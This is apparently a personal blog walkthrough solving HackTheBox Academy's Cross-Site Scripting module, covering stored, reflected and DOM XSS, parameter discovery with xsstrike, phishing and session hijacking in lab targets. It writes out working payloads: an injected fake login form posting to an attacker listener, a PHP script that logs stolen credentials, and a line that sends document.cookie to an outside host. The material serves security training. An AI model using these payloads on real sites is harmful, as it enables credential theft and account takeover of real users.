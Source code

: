 ```yaml
---
title: "[HTB_Academy] Cross-Site Scripting (XSS)"
excerpt: "**Cross-Site Scripting (XSS)** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Cross-Site_Scripting_(XSS)/banner.png
  teaser: /assets/images/HTB_Cross-Site_Scripting_(XSS)/upper.png
  og_image: /assets/images/HTB_Cross-Site_Scripting_(XSS)/upper.png
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Penetration Tester
  - Web
  - OWASP TOP 10
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\upper.png)

## Disclaimer
<img style="float: left; padding-right:10px" src="\assets\images\disclaimer.png" width="110" height="110">

<div style="text-align: justify">The following post may contain spoilers. Use it as a guide or support. It is always better to try it by yourself!</div>
<div style="text-align: justify">Enjoy :)</div>

## Resources
<img style="float: left; padding-right:10px" src="\assets\images\github.avif" width="110" height="110">
<div style="text-align: justify">All resources can be found in the following GitHub repository:</div>
[R4fik1-HTB_Cross-Site_Scripting_Repository](https://github.com/r4fik1/HTB_Academy/tree/main/HTB_Cross-Site_Scripting)

## Module Summary

Web Application Penetration Testing is a vital part of any penetration test. It plays an essential role in identifying critical vulnerabilities that may lead to the organization's assets being compromised. Cross-Site Scripting (XSS) vulnerabilities are among the most common vulnerabilities in any web application, with studies indicating that over 80% of all web applications are vulnerable to it. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser, leading to various types of attacks, including compromising web admins and their web applications.

While many organizations choose to ignore XSS vulnerabilities, as it only affects end-users without having a direct ability to execute code on the back-end server, in this module, we will discuss why XSS should be taken seriously. We will discuss the three types of XSS vulnerabilities, how to identify them, and how to exploit them.

In addition to this, the Cross-Site Scripting (XSS) module will teach you the following:

  - What is an XSS vulnerability?
  - History of XSS attacks in real-life
  - What are Stored XSS, Reflected XSS, and DOM-based XSS vulnerabilities
  - Techniques to identify XSS vulnerabilities
  - Performing Defacing attacks to change the look of a website
  - Performing Phishing attacks to steal the victim's login details and to perform a phishing simulation exercise
  - Performing Session Hijacking attacks to obtain the victim's session cookie and use them to access their account
  - Front-end and Back-end steps to prevent XSS vulnerabilities and protect your web application against them
  

## Stored XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">1. Access the target. There is a box that asks for a ticket. Write the following script and press enter.</div>
```javascript
<script>alert(document.cookie)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q1\1.png)



<div style="text-align: justify">2. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q1\2.png)



## Reflected XSS

>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">3. Enter the following script in the box and press the "Add" button.</div>
```javascript
<script>alert(document.cookie)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q2\1.png)

<div style="text-align: justify">4. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q2\2.png)



## DOM XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">5. Enter the following script in the box and press the "Add" button.</div>
```javascript
<img src="" onerror=alert(document.cookie)>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q3\1.png)



<div style="text-align: justify">6. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q3\2.png)



## XSS Discovery

>**Q. Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter? **

<div style="text-align: justify">7. Access the url which is a registration form. Fill all fields with test text. Open the developer tools of the web browser and check the status of the request response.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\0.png)



<div style="text-align: justify">8. Using the python tool "xsstrike" the vulnerable parameter is obtained.</div>
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\1.png)

>**Q. What type of XSS was found on the above server? "name only"**


<div style="text-align: justify">9. Using the python tool "xsstrike" gets the XSS type.</div>
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\2.png)


## Phishing

>**Q. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**


<div style="text-align: justify">10. Access the target by pointing to "/phishing". Contains a box where to paste the URL of an image.</div>
```bash
http://10.129.252.57/phishing/
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\1.png)


<div style="text-align: justify">11. Try entering the following URL: www.hackthebox.eu/images/logo-htb.svg. The image is loaded.</div>
```bash
http://10.129.252.57/phishing/index.php?url=httos%3A%2F%2Fwww.hackthebox.eu%2Fimages%2Flogo-htb.svg
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\2.png)


<div style="text-align: justify">12. Find your own IP with ifconfig to create open a listener.</div>
```bash
ifconfig
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\3.png)


<div style="text-align: justify">13. As url parameter value in the URL use the following script. It is verified that it is vulnerable to XSS.</div>
```bash
http://10.129.252.57/phishing/index.php?url=<script>alert(window.origin)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\4.png)


<div style="text-align: justify">14. Through "document.write" load a login form to falsify the web. The "Image URL" box should be removed.</div>
```bash
http://10.129.252.57/phishing/index.php?url='/><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46:3333><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script><!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\5.png)


<div style="text-align: justify">15. With the following parameter "document.getElementById('urlform').remove()" the "Image URL" box is removed.</div>
```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\6.png)


<div style="text-align: justify">16. Create a PHP listener on port 3333.</div>
```bash
mkdir /tmp/server
cd /tmp/server
nano index.php
```



```bash
sudo php -S 0.0.0.0:3333
```

```bash
cat creds.txt
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\7.png)


<div style="text-align: justify">17. We use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections</div>
```bash
cat index.php
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\8.png)

<div style="text-align: justify">18. Access the following URL created earlier to send the phishing to the user.</div>
```bash
http://10.129.252.57/phishing/send.php
```
```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\9.png)


<div style="text-align: justify">19. The listener captures the username and password.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\10.png)


<div style="text-align: justify">20. Access the login and enter the previously stolen credentials.</div>
```bash
http://10.129.252.57/phishing/login.php
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\11.png)


<div style="text-align: justify">21. Get the flag.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\12.png)



## Session Hijacking

>**Q. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**


<div style="text-align: justify">22. Access the target. It is a registration form.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\1.png)



<div style="text-align: justify">23. Find if the record is vulnerable with the following scripts in the fields.</div>
```javascript
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\2.png)


<div style="text-align: justify">24. Open a listener. It is verified that a vulnerable field exists.</div>
```bash
sudo php -S 0.0.0.0:3333
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\3.png)


<div style="text-align: justify">25. Search for the vulnerable field by entering a name for each script. Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.
Look for the position.</div>
```javascript
"><script src=http://10.10.14.46:3333/fullname></script>
"><script src=http://10.10.14.46:3333/username></script>
"><script src=http://10.10.14.46:3333/password></script>
"><script src=http://10.10.14.46:3333/url></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\4.png)


<div style="text-align: justify">26. The vulnerable field is "url".</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\5.png)


<div style="text-align: justify">27. Create the following script to steal the cookie.</div>
```bash
nano script.js
```
```bash
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\6.png)

<div style="text-align: justify">28. Write that script in the url field to access it from the listener.</div>
```javascript
<script src=http://10.10.14.46:3333/script.js></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\7.png)

<div style="text-align: justify">29. The cookie is captured.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\8.png)

<div style="text-align: justify">30.  Access "login.php". Click on "+" to add the cookie and add the cookie.</div>
```bash
http://10.129.134.2/hijacking/login.php
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\9.png)

<div style="text-align: justify">31. The flag is obtained.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\10.png)

## Skills Assessment

>**Q. What is the value of the 'flag' cookie?**


<div style="text-align: justify">32. Access the target and click on "Welcome to Security Blog".</div>
```bash
http://10.129.13.2/assessment
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\1.png)

Write the scripts in all the fields always putting a name to detect the vulnerable field.
<div style="text-align: justify">33. </div>
```javascript
"><script src=http://10.10.14.46:3333/coment></script>
"><script src=http://10.10.14.46:3333/name></script>
"><script src=http://10.10.14.46:3333/url></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\2.png)

<div style="text-align: justify">34. Open a listener. The vulnerable field is "url".</div>
```bash
sudo php -S 0.0.0.0:3333
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\3.png)

<div style="text-align: justify">35. Create the following script to steal the cookie.</div>
```bash
nano script.js
```
```bash
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\4.png)

<div style="text-align: justify">36. Write that script in the url field to access it from the listener.</div>
```javascript
<script src=http://10.10.14.46:3333/script.js></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\5.png)

<div style="text-align: justify">37. In the listener the flag inside the cookie is obtained.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\6.png)